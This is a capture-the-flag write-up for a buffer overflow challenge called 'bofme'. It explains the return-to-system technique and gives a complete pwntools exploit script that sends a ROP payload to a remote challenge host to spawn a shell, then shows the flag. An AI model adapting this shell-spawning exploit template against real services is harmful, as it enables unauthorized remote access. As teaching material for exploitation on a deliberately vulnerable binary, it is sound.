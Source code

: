 ![](../images/bofme1.png)
In this challenge, we are been given an ELF file, which is vulnerable to BOF.
``bash
$ ./bofme
a little harder this timeaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
zsh: segmentation fault (core dumped)  ./bofme
``
after analyzing the file with gdb gef, 
i undersood that i need to make **return2system**
# return2system
is a type of exploitation on which , hacker exploit BOF vuln and trigger the vuln application to call system fucntion with 
some string like /bin/bash
system('/bin/bash')
<br> after the app call this function, we can get the shell  and exploit the remote server.
<br> in order to success in this job, we need to fill some condition
- the programme must not have PIE protection. otherwise  we can't fill the second condition
- we need to get the address of system
- we need to get the address of sum strings which we must use as system function param
- we need to get 'ret' gadget  in order to make the program return to the address of 'system'
- calculus the offset to get the rip.

  ```python
  from pwn import *

exe = "./bofme" # replace by your binary
elf = context.binary = ELF(exe)
context.log_level = 'debug'
############################## to be replaced###############
offset = 40 # to be replaced
ret_addr = 0x00000000004004d1 # to be replaced 
system_addr = elf.symbols['do_system'] #plt system address
bin_sh_addr = 0x400744 #  0x7ffff7f5404f 
############################################################

payload = flat({offset: [ ret_addr,  system_addr,  bin_sh_addr]})
with open("payload.txt", "bw") as f:
    f.write(payload)

#ps = process(exe) # or use remote
ps = remote('0.cloud.chals.io', 27380)
#22ps.sendlineafter('time',payload)
#print(dir(ps))
ps.sendlineafter(b'time', payload)
ps.interactive()
```
<br>
<br>
![](../images/bofme.png)

<br>
#flag: flag{getting_better_at_hacking_binaries_i_see...}
